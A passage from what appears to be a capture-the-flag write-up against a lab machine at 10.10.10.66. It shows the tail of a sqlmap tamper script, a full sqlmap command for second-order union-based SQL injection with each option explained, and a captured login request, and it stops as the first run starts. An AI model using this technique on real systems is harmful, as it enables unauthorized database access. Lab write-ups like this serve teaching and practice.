         return "PHPSESSID={0}".format(php_cookie)
    
    def tamper(payload, **kwargs):
        headers = kwargs.get("headers", {})
        headers["Cookie"] = create_account(payload)
        return payload
    

#### sqlmap Command Line

We’ll accomplish steps 2) and 3) with options at the `sqlpmap` command line:

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080
    

Options:

  * `--technique=U` \- `sqlmap` will try six different classes of sqli attack: [B]oolean-based, [E]rror-based, [U]nion-based, [S]tacked queries, [T]imebased queries, and Inline [Q]ueries. By default, it’s `BEUSTQ`, but since we already showed in the manual work that we’ll be using a union attack, we’ll reduce the number of checks

  * `-r login.request` \- a request saved out of burp, making sure there’s no PHPSESSID cookie, and that the password is the same as our tamper script:
    
        POST /index.php HTTP/1.1
    Host: 10.10.10.66
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.66/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    user=aaaabcddddd&pass=df&login=Login
    

  * `--dbms mysql` \- given this is a linux host, and mysql is common with the linux / php stack, we’ll guess this to speed things up. If `sqlmap` disagrees, it will tell us.

  * `--tamper tamper-nightmare.py` \- our tamper script from above

  * `--second-order 'http://10.10.10.66/notes.php'` \- after the request to `index.php` to login, visit this url to check for results

  * `-p user` \- we know from the manual work that the injectable parameter is the username

  * `--proxy http://127.0.0.1:8080` \- send requests through Burp for analysis. Would probably remove this prior to a big dump of the database to speed things up

## Details of Initial Run

We start `sqlmap` with the commands above, and it runs until the following
prompt:
